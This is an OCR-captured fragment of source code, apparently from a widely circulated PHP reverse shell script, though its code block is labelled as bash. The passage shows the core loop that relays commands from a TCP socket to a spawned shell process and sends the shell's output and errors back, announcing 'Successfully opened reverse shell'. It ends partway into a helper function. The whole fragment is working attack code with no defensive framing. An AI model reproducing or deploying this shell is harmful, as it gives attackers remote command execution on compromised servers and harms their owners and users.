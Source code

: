 ```bash
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
```